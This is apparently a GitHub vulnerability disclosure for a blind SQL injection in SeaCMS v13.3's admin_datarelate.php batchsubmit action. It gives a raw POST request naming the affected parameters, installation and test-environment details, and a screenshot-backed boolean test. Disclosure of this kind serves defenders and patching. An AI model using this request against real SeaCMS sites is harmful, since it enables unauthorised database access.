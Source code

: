 # seacms-v13.3-blind-based-sqli
Proof of Concept for SQL Injection vulnerability in SeaCMS v13.3
Impact system：<SeaCMS v13.3
Vulnerability URL：http://xxx.xxx.xx/30h9r/admin_datarelate.php?action=batchsubmit
Note: The /30h9r/ in /30h9r/admin_datarelate.php is randomly generated. The /30h9r/ for each cms is randomly generated
Vulnerability poc：

------------------------------------------------------------------------------------------------------------------------------------
POST /30h9r/admin_datarelate.php?action=batchsubmit HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 100
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: 
Origin: 
Referer: 
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

v_field=10&v_str1=1&v_str2=1
------------------------------------------------------------------------------------------------------------------------------------
Vulnerability reproduction:

Visit the ocean CMS website: https://www.seacms.net/; As shown in the picture：

<img width="832" height="538" alt="image" src="https://github.com/user-attachments/assets/7752ef93-0469-4846-b280-6ecdacffab08" />

<img width="832" height="514" alt="image" src="https://github.com/user-attachments/assets/33aefc47-2e75-4ba3-b13a-1f7712cb511a" />

Download the latest installation package version V13.3; And perform decompression; As shown in the picture

<img width="296" height="141" alt="image" src="https://github.com/user-attachments/assets/a2ce45f2-337a-496a-9b6e-046a9f527cde" />

Install according to the official user manual

The environment I installed this time:

Ubuntu 22, CPU: 2 cores, Memory: 4GB, Baota Panel -v9.6.0, MySQL 5.7.43, Apache 2.4.62, PHP 5.6.40

After installing the system, go to the default background. As shown in the picture

<img width="832" height="536" alt="home" src="https://github.com/user-attachments/assets/4a19fa3d-d385-48bb-bedc-b4b450065dc5" />

When the condition 6796=6796 is true; The data was successfully queried

<img width="2020" height="1366" alt="image" src="https://github.com/user-attachments/assets/28ddf9c9-0311-4414-92fe-d0d43b6ea1e5" />
